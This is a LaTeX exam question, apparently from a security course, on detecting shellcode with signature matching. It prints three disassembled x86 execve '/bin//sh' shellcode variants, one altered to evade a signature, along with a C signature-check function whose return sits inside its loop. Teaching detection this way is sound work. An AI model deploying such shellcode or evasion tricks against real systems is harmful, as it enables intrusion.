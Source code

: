 \documentclass{article}[9pt]
\begin{document}
\begin{enumerate}
\begin{enumerate}
\begin{verbatim}
8048060: 31 c9            xor ecx,ecx
8048062: f7 e1            mul ecx
8048064: 50               push eax
8048065: 68 6e 2f 73 68   push 0x68732f6e
804806a: 68 2f 2f 62 69   push 0x69622f2f
804806f: 89 e3            mov ebx,esp
8048071: b0 0b            mov al,0xb
8048073: cd 80            int 0x80
\end{verbatim}

\item (5 points) Will the shell code below be detected by the signature scheme, yes or no and \textbf{Explain}.

\begin{verbatim}
8048060: 31 c9             xor ecx,ecx
8048062: f7 e1             mul ecx
8048064: 6a 68             push 0x68
8048066: 68 6e 2f 2f 73    push 0x732f2f6e
804806b: 68 2f 2f 62 69    push 0x69622f2f
8048070: 89 e3             mov ebx,esp
8048072: b0 0b             mov al,0xb
8048074: cd 80             int 0x80
\end{verbatim}
\end{enumerate}

\item Consider this signature matching scheme below:

\begin{verbatim}
int sig_check(char *str, char * sig0, char *sig1){
  char *p;
  for(p=str;*p;p++){
    if ( strncmp(p,sig0,strlen(sig0)) == 0 )
      if (strncmp(p+strlen(sig0),sig1,strlen(sig1)) == 0)
        return 1;
    return 0;
  }
}
\end{verbatim}

\begin{enumerate}
\item (5 points) Provide a signatures (i.e., arguments to \texttt{sig\_check} above) that
will match both shell codes (from the previous questions) use
of the execve system call.

\item (5 points) Consider the following change to the shell code below, does
your previous signature still work? If so, explain why, if not,
explain why not.

\begin{verbatim}
8048060: 31 c9             xor ecx,ecx
8048062: f7 e1             mul ecx
8048064: 6a 68             push 0x68
8048066: 68 6e 2f 2f 73    push 0x732f2f6e
804806b: 68 2f 2f 62 69    push 0x69622f2f
8048070: b1 0b             mov cl,0xb
8048072: 89 e3             mov ebx,esp
8048074: 40                inc eax
8048075: e2 fd             loop 8048074 <_start+0x14>
8048077: cd 80             int 0x80
\end{verbatim}
\end{enumerate}


\end{enumerate}
\end{document}
